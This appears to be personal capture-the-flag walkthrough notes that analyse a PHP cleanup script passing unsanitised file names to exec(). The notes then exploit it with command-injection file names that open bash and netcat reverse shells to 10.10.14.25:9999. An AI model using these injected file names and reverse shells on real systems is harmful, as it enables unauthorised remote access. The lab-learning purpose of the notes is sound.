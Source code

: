 $to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
	- we see it takes a user input $value which is the page name
		- why value? on checking all variables, thats the only one not defined in code.
		- we know as if value is index.php it returns true
	- **Note: we can check if we can edit lib.php. We can't but if we could, we could direct the first line to our php exploit and it would execute it**
		- we know as if value is index.php it returns true
	- this command is then used here:
		```bash
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```
		- uses exec which passes it(**DANGEROUS like system command**) `[FIX is should use unlink instead]`
		- value is not sanitized and so if we create a special file type it passes it as a command
		- yet we cannot use / like how we obtianed out first reverse shell (url) as this is a file we are creating
			- so we can encode our usual exploit in base64 OR
			- use nc exploit
- add reverse shell script as file :
	- create files in /var/www/html/uploads (thats the path in our attack code)
	- listen on required port on local machine:
	- Method 1:
		- encoded in base 64 as file name with echo command :
			```bash
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.25/9999 0>&1'" | base64 
cd /var/www/html/uploads
touch -- ';echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS85OTk5IDA+JjEn | base64 -d | bash'
```
		- after 3ish minutes we should get shell as guly at netcat listener
		- -- in touch is to say no arguments, just start writing filename
	- Method 2:
		- create netcat file :
			```bash
touch -- ';nc -c bash 10.10.14.25 9999';
```